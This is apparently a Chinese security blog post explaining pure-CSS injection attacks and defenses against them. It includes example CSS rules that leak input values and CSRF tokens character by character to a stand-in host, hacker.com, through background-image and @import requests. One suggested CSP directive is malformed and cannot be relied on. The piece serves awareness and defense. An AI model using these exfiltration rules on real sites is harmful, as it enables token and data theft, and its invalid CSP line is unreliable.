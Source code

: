 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTkwODU3Ng==&mid=2247515373&idx=1&sn=28be83d1aa224fed61ba5c5731b289c2

#  警惕！纯 CSS 也能偷数据？这种攻击比 XSS 更隐蔽！  
原创 东方隐侠集智堂  东方隐侠安全团队   2025-06-15 15:58  
  
你以为只有 JavaScript 能搞破坏？大错特错！当黑客盯上你的网站时，一行 CSS 代码就能悄悄偷走敏感信息 —— 从 CSRF Token到页面文本，甚至 JavaScript 代码！  
  
今天就来揭开**纯 CSS 攻击**  
的神秘面纱，看看黑客如何用样式代码发动 “视觉欺骗”。  
👇  
### 一、CSS 注入：被低估的 “样式黑客”  
  
传统攻击如 XSS 依赖 JavaScript 执行，但 CSS 注入更 “狡猾”：  
- 无需 JS 参与：仅通过<style>标签注入恶意 CSS，绕过 CSP 策略限制  
  
- 隐蔽性极强：仅修改页面样式，肉眼难辨异常，却能窃取数据  
  
- 攻击链完整：结合属性选择器、字体加载等特性，实现数据外漏  
  
举个栗子：黑客注入以下 CSS，就能通过背景图片请求，判断输入框 value 值的首字符：  
  

```
input[name=&#34;secret&#34;][value^=&#34;a&#34;] { background: url(https://hacker.com?q=a) }
input[name=&#34;secret&#34;][value^=&#34;b&#34;] { background: url(https://hacker.com?q=b) }
```

  
  
当浏览器加载对应样式时，服务器会收到带参数的请求，从而窃取 “secret” 字段的值。  
### 二、黑客的 CSS 攻击工具箱  
##### 1. 属性选择器：精准定位数据  
  
通过
```
[attribute^=value]
```

  
等选择器，黑客可定位特定属性的元素，配合背景图请求窃取数据。即使是
```
type=&#34;hidden&#34;
```

  
的表单字段，也能通过相邻元素间接触发请求：  
  

```
input[name=&#34;csrf-token&#34;][value^=&#34;a&#34;] + input { background: url(https://hacker.com?q=a) }
```

  
##### 2. @import 动态加载：字符逐个偷  
  
利用 CSS 的 @import 规则，黑客可构建循环加载机制：  
- 首次请求加载
```
@import url(https://hacker.com/start?len=8)
```

  
  
- 
```
服务器响应分阶段的 Payload，逐字符窃取数据（如先偷首字符，再偷第二位）
```

  
  
- 
```
通过域名分流（如主域加载 CSS，子域加载背景图）绕过浏览器请求限制
```

  
  
##### 3. 字体攻击：从 “看字” 到 “偷字”  
- **unicode-range：为特定字符设置外部字体，通过字体加载请求判断字符存在******  
  
- **字体高度差：利用不同字体的高度差异，结合滚动条样式触发数据外漏**  
  
- **连字技巧：自定义字体将字符组合渲染为宽元素，通过滚动条是否出现判断字符组合**  
  
### 三、实战案例：黑客如何攻破 HackMD？  
  
HackMD 曾因允许<style>标签且 CSP 配置宽松，被发现可通过 CSS 注入窃取 CSRF 令牌：  
  
（1）黑客注入 CSS，利用属性选择器定位隐藏的 csrf-token 字段  
  
（2）通过实时更新机制，分阶段替换 Payload，逐字符窃取令牌  
  
（3）虽然 HackMD 检查 Origin 头阻止 CSRF，但令牌泄露已构成严重威胁  
  
更夸张的是 corCTF 挑战赛中，黑客通过 iframe 嵌套 + DOM 覆盖，用 CSS 注入窃取 React 应用的页面数据 —— 这证明 CSS 攻击与其他漏洞结合时，破坏力会指数级增长！  
#### 四、防御指南：三步筑牢 CSS 安全防线  
1. **严格过滤<style>标签：**  
禁用用户输入中的<style>标签，或使用 CSP 的
```
style-src 'self'
```

  
限制样式来源  
  
1. **限制字体与资源加载：**  
  
1. 通过 CSP 的
```
font-src
```

  
限制字体来源，阻止恶意 @font-face 加载  
  
1. 禁用
```
@import
```

  
语法：
```
style-src 'self' 'unsafe-inline' -url(https:)
```

  
  
1. **增强数据防护机制：**  
  
1. CSRF 令牌除了隐藏字段，可同时存于 HTTP 头（如 Origin），双重验证  
  
1. 对敏感数据所在元素添加特殊防护，避免被属性选择器定位  
  
#### 结语  
  
CSS 注入就像网络安全中的 “隐形刺客”，用样式层的伪装实施攻击。随着浏览器对 CSS 功能的扩展（如:has 选择器），攻击手段还在进化。开发者需将 CSS 安全纳入防御体系，别让一行样式代码成为系统漏洞的突破口！  
  
  
参考资料：  
  
CSS 注入原理解析  
  
实战案例：CSS 窃取数据全流程  
  
🔍   
完整内容，请查看原文链接，欢迎少侠们关注与注册  
东方隐侠官方网站“隐侠安全客栈”  
！  
  
📢 你的网站测过 CSS 注入风险吗？评论区聊聊你的防护经验！  
  
关注东方隐侠安全团队 一起打造网安江湖  
  
东方隐侠安全团队，一支专业的网络安全团队，将持续为您分享红蓝对抗、病毒研究、安全运营、应急响应等网络安全知识，提供一流网络安全服务，敬请关注！  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/icqGYtiaRQqH7zgibKsqKmX3H4AatvwPeXFsrHGpp0RsxLJpzgd0cyiaPH2HDnfv4GMdxf0lkGjAibiaBtFcLmnm2ZkA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
  
  
公众号｜东方隐侠安全团队  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/icqGYtiaRQqH4laNHWaR5yOd2VbInJbO4h3daHtdT7pcSk7zONRMDyl2cht3U4dbbyiaLmMA5DpBBlTgspa3agKyw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
  
  
请添加团队微信号  
｜东方隐侠安全团队  
  
用于拉少侠们进团队交流群  
  

